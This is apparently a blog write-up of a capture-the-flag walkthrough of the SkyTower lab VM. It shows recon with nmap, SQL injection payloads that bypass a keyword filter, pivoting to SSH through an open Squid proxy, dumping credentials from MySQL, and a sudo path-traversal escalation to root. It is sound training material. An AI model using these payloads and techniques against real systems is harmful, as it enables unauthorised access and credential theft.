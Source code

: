 ```yaml
---
layout: post
title: "SkyTower writeup"
subtitle: "~ Walkthrough of SkyTower machine ~"
date: 2017-10-31
author: V3ded
category: CTF
tags: blog ctf pentesting 
finished: true
---
```


# Introduction

Next walkthrough [VM](https://www.vulnhub.com/entry/skytower-1,96/) was made by Telspace Systems for a BSidesCPT security summit. Rated intermediate difficulty and assigned to 'todo' machines as preparation for OSCP I decided to give it a try. Time to start! 

***

# Recon

Netdiscovery to find the initial SkyTower's IP:

```console
 Currently scanning: 192.168.31.0/16   |   Screen View: Unique Hosts                                           
                                                                                                               
 22 Captured ARP Req/Rep packets, from 9 hosts.   Total size: 1320                                             
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.1.12    [REDACTED]           1       60      Apple, Inc.                                                 
 192.168.1.12    [REDACTED]           2       120     AzureWave Technology Inc.                                   
 192.168.1.1     [REDACTED]           8       480     ADB Broadband Italia                                        
 192.168.1.16    08:00:27:73:b0:c     9       2       120  PCS Systemtechnik GmbH                                      
 192.168.1.10    [REDACTED]           1       60      Unknown vendor                                              
 192.168.1.11    [REDACTED]           1       60      Unknown vendor                                              
 192.168.1.14    [REDACTED]           1       60      LG Innotek                                                  
 0.0.0.0         [REDACTED]           2       120     Apple, Inc.                                                 
 192.168.1.17    [REDACTED]           4       240     Apple, Inc.                                                 

```

Our target is **192.168.1.16**!

Proceed with nmap scan to find open ports and their services:

```console
root@EdgeOfNight:~# nmap -A -T5 -sS 192.168.1.16

Starting Nmap 7.60 ( https://nmap.org ) at 2017-10-31 12:43 GMT
Warning: 192.168.1.16 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.1.16
Host is up (0.00034s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE    VERSION
22/tcp   filtered ssh
80/tcp   open     http       Apache httpd 2.2.22 ((Debian))
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Site doesn't have a title (text/html).
3128/tcp open     http-proxy Squid http proxy 3.1.20
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:GET
|_http-server-header: squid/3.1.20
|_http-title: ERROR: The requested URL could not be retrieved
MAC Address: 08:00:27:73:B0:C9 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3.2
OS details: Linux 3.2, Linux 3.2 - 3.16
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.34 ms 192.168.1.16

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.75 seconds
```

Nmap scan shows, that there is a running HTTP Apache web server. Upon loading the page in a browser we get a result:

<img src="/img/blog/skytower/skytower-01.png">

An interesting page with login functionality! I wonder how it reacts to SQL statements? Login crashes when we input a simple apostrophe - `'` inside username field. Clear sign of an SQL injection. 

<img src="/img/blog/skytower/skytower-02.png">  

A common login bypass would be a crafted request which looks similar to: `' OR 1=1#`. Unfortunately there is a filter which prevents the injection:
 
<img src="/img/blog/skytower/skytower-03.png">  

`OR` and `=` completely dissapeared from the query. Hmm... A certain filter is blocking SQL keywords to prevent injections from happening. If you don't know what to do, you should read an [article](https://www.owasp.org/index.php/SQL_Injection_Bypassing_WAF) about bypassing filters / WAFs by OWASP. After enough trial and error I found a string which worked. `' OORR 1=1#` bypasses the defenses and puts us past the login!  

<img src="/img/blog/skytower/skytower-04.png">  

Alternatively, `' || 1=1#` will work as well. 

***

# Exploitation

* Username: john
* Password: hereisjohn

Nice! Before using the credentials we need to get past `filtered` port issue. If you remember, our *nmap* scan only showed SSH as filtered. Not opened. We can use **Squid proxy** (port:*3128*) to solve the problem. Doing a bit of enumeration, it is easy to see that the proxy isn't password protected and therefore we can add it to our proxychains list for later usage. 

Edit `/etc/proxychains.conf` file and add:
```console
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
http	192.168.1.16	3128 #SQUID PROXY
``` 

After that just connect to SSH with proxychains:
```console
proxychains ssh john@192.168.1.16
``` 

<img src="/img/blog/skytower/skytower-05.png">

Unfortunately the connection immediately drops. Most probably because `.bashrc` file has an *exit* instruction somewhere within it. To circumvent this, I just rename `.bashrc` on the target system and retry the login. This can be done by chaining a command right after doing SSH connect:

<img src="/img/blog/skytower/skytower-06.png">

Because `.bashrc` file has no longer an effect on our session, we are greeted with a nice shell! 

> Theoretically you can run any command by the previously mentioned method. Feel free to bypass the restriction any way you feel.

***

# Privilege Escalation

Browsing around the filesystem I notice there is an active instance of *MYSQL* database running. You can either guess the correct password (default) or find it inside `/var/www/login.php`.  

<img src="/img/blog/skytower/skytower-07.png">

Funny or not, you can also see the filter which prevented us from doing simple SQL injections. Enough of talking though. Connect to the database and get the sweet credentials!

```console
john@SkyTower:/var/www$ mysql -u root -p
Enter password: root

mysql> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| SkyTech            |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.00 sec)

mysql> USE SkyTech;
Database changed

mysql> SHOW TABLES;
+-------------------+
| Tables_in_SkyTech |
+-------------------+
| login             |
+-------------------+
1 row in set (0.00 sec)

mysql> SELECT * FROM login;
+----+---------------------+--------------+
| id | email               | password     |
+----+---------------------+--------------+
|  1 | john@skytech.com    | hereisjohn   |
|  2 | sara@skytech.com    | ihatethisjob |
|  3 | william@skytech.com | senseable    |
+----+---------------------+--------------+
3 rows in set (0.00 sec)
```
If some of the queries are unclear I recommend reading a MySQL [cheatsheet](https://www.digitalocean.com/community/tutorials/a-basic-mysql-tutorial) by DigitalOcean. 

Afterwards I tried to login as Wiliam, but his credentials don't work. However Sara's do! She has the same *exit* annoyance thingy in `.bashrc` as John, but fear not. We already know how to go around it :).

<img src="/img/blog/skytower/skytower-08.png">

Then do `sudo -l`

<img src="/img/blog/skytower/skytower-09.png">

which reveals we can run `/bin/cat /accounts/` with root privileges. This alows for a path traversal and `cat`-ing of protected content. In my case the root flag.

```console
sara@SkyTower:~$ sudo cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
sara@SkyTower:~$ 
```

Just do `su root`, enter the password and BAAM! 

<img src="/img/blog/skytower/skytower-10.png">

## Rooted!

***

# Conclusion

In my opinion a prety solid box. I learnt few new things and had fun while doing so. What more can you wish for?! My thanks goes to **bitvijays** for providing me with guidance when I got stuck once or twice. Check out his blog at <http://bitvijays.github.io/> ! If there are any questions feel free to reach out to me by sending an email or leaving a comment down bellow.  

~V3 

<img src="/img/blog/skytower/bye.png">
